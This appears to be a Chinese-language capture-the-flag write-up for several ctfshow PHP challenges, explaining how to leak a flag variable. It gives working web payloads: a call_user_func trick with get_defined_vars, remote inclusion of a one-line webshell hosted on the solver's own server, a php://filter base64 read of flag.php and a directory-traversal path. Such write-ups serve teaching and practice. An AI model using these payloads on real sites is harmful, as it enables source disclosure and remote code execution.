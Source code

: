 


https://www.cnblogs.com/lost-1987/articles/3309693.html

https://www.php.net/manual/zh/book.gettext.php

**小知识点： _()是一个函数**

_()==gettext() 是gettext()的拓展函数，开启text扩展。需要php扩展目录下有php_gettext.dll

所以 `call_user_func('_','phpinfo')` 返回的就是phpinfo

因为我们要得到的flag就在flag.php中，所以可以直接用get_defined_vars

**get_defined_vars()函数**

get_defined_vars — 返回由所有已定义变量所组成的数组 这样可以获得 $flag

payload: ?f1=_&f2=get_defined_vars

## 129

```php
if(isset($_GET['f'])){
    $f = $_GET['f'];
    if(stripos($f, 'ctfshow')>0){
        echo readfile($f);
    }
}
```

函数介绍

```
stripos() 
查找字符串在另一字符串中第一次出现的位置（不区分大小写）。
```

一个简单的方法就是远程文件包含，在自己的服务器上写个一句话，然后保存为txt文档。
 例如 f=http://url/xxx.txt?ctfshow
 其中xxx.txt为一句话

要是没有服务器的话，我们也可以用php伪协议绕过

`payload:f=php://filter/read=convert.base64-encode|ctfshow/resource=flag.php`
 filter伪协议支持多种编码方式，无效的就被忽略掉了。

`/ctfshow/../../../../var/www/html/flag.php`



## 130-131

```PHP

error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
    $f = $_POST['f'];

    if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    }
    if(stripos($f, 'ctfshow') === FALSE){
        die('bye!!');
    }

    echo $flag;

} 
```